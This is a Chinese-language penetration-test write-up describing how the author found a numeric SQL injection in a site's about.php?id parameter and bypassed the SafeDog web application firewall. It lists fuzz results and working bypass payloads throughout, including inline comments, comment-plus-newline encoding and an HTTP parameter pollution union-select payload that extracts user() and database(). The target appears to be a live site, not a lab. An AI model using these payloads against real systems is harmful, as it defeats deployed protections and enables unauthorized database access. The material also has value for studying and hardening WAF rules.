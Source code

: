 0x00 发现漏洞
---------

拿到目标后，在主页到处看看功能点，同时看看url特征，发现一个后缀/about.php?id=1，简直就是标准的SQL注入，加个单引号报错。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-72aa0cf68bb1e2a9798481a8fd20d26f38a21858.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-72aa0cf68bb1e2a9798481a8fd20d26f38a21858.png)  
看特征明显是数字型注入，使用"and 1=1"和"and 1=2"测试一下，存在安全狗，直接被拦。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1163f2f85143b247bb9a3553bfe83ba75042c756.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1163f2f85143b247bb9a3553bfe83ba75042c756.png)  
接下来就是想办法绕过，掏出之前4.0版本记录的绕过方法，看官网已经升级到5.0了，但是之前的某些方法应该还是有用的。

0x01 bypass安全狗
--------------

#### 绕过and 1=1的拦截

首先fuzz一下and 1=1的拦截情况

```java
and       //不拦截
and 1     //拦截
and 1=1   //拦截
and -1=-1 //拦截
%26 1=1   //拦截
```

后面两种方法，是我在4.0版本的时候用来绕过的，看来是不行了。可以看到and之后不带参数的时候，是没有拦截的，说明检测的不是and，而是and后面的数字。最后我是使用内联注释把后面的数字-1包裹，成功绕过。（但是内联注释包裹1也是不行的）  
`?id=1 and /*!-1*/=-1`  
正常返回  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2ced40929a5936cfc3050d700429a1dcc2073697.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2ced40929a5936cfc3050d700429a1dcc2073697.png)  
`?id=1 and /*!-1*/=-2`  
返回错误  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-be4a65b122949c37419daeba0de3a0ee7d54c791.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-be4a65b122949c37419daeba0de3a0ee7d54c791.png)

#### 绕过order by的拦截

同样，fuzz一下order by在什么情况下会被拦截

```java
order     //不拦截
by        //不拦截
order by  //不拦截
order by 10 //拦截
```

发现在order by后面带数字的时候才会被拦截，也就是说并不是单纯的检测order by这个，这里绕过的办法有几种，首先想到的就是跟上面一样使用内联注释。

###### 1、内联注释绕过

```java
?id=1 /*!order*/ by 10
?id=1 order /*!by*/ 10
?id=1 order by /*!10*/
```

测试发现，上面三种方式都不会被拦截，所以猜测检测方式应该是要同时检测到这三个整体出现，才会被拦截。  
之后修改后面数字，爆出字段为3

```java
order by /*!3*/  //返回正常
order by /*!4*/  //返回错误
```

正常页面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1394603d580ed65487fd4b3bf4d9bc1a9cede383.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1394603d580ed65487fd4b3bf4d9bc1a9cede383.png)

报错页面：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5c434b89af9638111b0dc41e4e30d213f66985d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5c434b89af9638111b0dc41e4e30d213f66985d3.png)

###### 2、注释换行绕过

```java
order%23%0aby 3  //%23为注释符#，%0a为换行符
order%23%0aby 4
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b139978ebc45e03b9fc103f93514ca076656523b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b139978ebc45e03b9fc103f93514ca076656523b.png)

#### 绕过union select拦截

fuzz结果如下

```java
union        //不拦截
select       //不拦截
union select //拦截
```

这里同样是union select同时出现才会拦截，这里我是测试了注释换行和内联注释，都没办法绕过。最后，是使用了HTTP参数污染加注释进行的绕过。  
payload：

```java
?id=1 /*&id=-1 union select 1,2,3%23*/
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-240df0d9bc140001d21bf1712a098b70b9a4411b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-240df0d9bc140001d21bf1712a098b70b9a4411b.png)  
可以看到这里是成功绕过，并且2和3位置有回显，接下来只需要将对应位置改为要注入的数据即可。

user()和database()  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f840628b01824a54af4b0dc1cf5e44776bdae777.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f840628b01824a54af4b0dc1cf5e44776bdae777.png)  
后面的过程只需要修改第2个id的值，就和正常的注入是一样的情况，就不多说了。

0x02 总结
-------

在最后测试完成后，发现前面的几种方法不是任何情况都能用的，而最后使用的HTTP参数污染加注释绕过的方法，其实完全可以在上面测试中的所有情况下使用。所以其实就这一个方法就可以满足这次的渗透绕过，不过我还是把整个测试的过程记录下来，作为一个参考。